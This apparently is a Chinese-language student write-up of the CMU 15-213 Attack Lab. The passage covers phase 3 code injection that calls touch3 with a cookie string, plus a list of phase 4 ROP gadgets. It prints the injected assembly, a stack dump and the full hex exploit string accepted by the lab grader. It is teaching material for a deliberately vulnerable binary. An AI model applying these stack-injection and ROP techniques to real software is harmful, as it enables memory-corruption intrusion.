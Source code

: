主要的点在于，这里的栈的位置是固定（mmap的时候指定了）的，于是可以直接把返回地址放到栈上，然后在栈上运行写汇编代码，最后跳到 `touch2` 。其实 `ctarget` 开启了 NX ，不过在 mmap 的时候设置了 PROT_EXEC ，再把它设为栈帧的位置，所以可以运行，否则这种方法就失效了。

## 阶段 3

这一步其实和上一步没有什么区别，只不过从 rdi 直接传递一个 cookie 变成了传递一个字符串，字符串直接放在栈上就好了，毕竟 cookie 是固定的，直接把十六进制的 cookie 放在栈上，然后用调试器的 `p` 和 `x` 命令去找实际的地址，然后填到汇编里就好了：

```asm
   0x556545b9:  sbb    al,BYTE PTR [rax+0x0]
   0x556545bc:  add    BYTE PTR [rax],al
   0x556545be:  add    BYTE PTR [rax],al
=> 0x556545c0:  mov    rdi,0x556545c8
   0x556545c7:  ret
   0x556545c8:  xor    eax,0x30353138
   0x556545cd:  cmp    BYTE PTR [rsi],dh
   0x556545cf:  (bad)
```

此时栈上的情况：

```
0000| 0x556545b8 --> 0x401a9c (<touch3>:        push   rbx)
0008| 0x556545c0 --> 0xc3556545c8c7c748
0016| 0x556545c8 ("5815086a")
0024| 0x556545d0 --> 0xf4f4f4f4f4f40000
0032| 0x556545d8 --> 0xf4f4f4f4f4f4f4f4
0040| 0x556545e0 --> 0xf4f4f4f4f4f4f4f4
0048| 0x556545e8 --> 0xf4f4f4f4f4f4f4f4
0056| 0x556545f0 --> 0xf4f4f4f4f4f4f4f4
```

这样返回的时候就会跳到 `touch3` 函数，并且 rdi 指向了 cookie 的字符串。

结果：

```
Cookie: 0x5815086a
Type string:Touch3!: You called touch3("5815086a")
Valid solution for level 3 with target ctarget
PASS: Would have posted the following:
        user id NoOne
        course  15213-f15
        lab     attacklab
        result  2017011484:PASS:0xffffffff:ctarget:3:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 C0 45 65 55 00 00 00 00 9C 1A 40 00 00 00 00 00 48 C7 C7 C8 45 65 55 C3 35 38 31 35 30 38 36 61 00
```



## 阶段4

后两个阶段就是 ROP ，会稍微麻烦一点，不过既然已经给出了汇编的对照表，所以难度不是很大。首先把已有的一些函数翻译成对于的 ROP Gadget ：

```asm
addval_285: 401b3b pop rax
addval_408: 401b42 pop rax
getval_282: 401b48 mov rdi, rax
getval_113: nope
addval_291: nope
setval_294: nope
addval_219: 401b63 mov rdi, rax
addval_165: nope
```
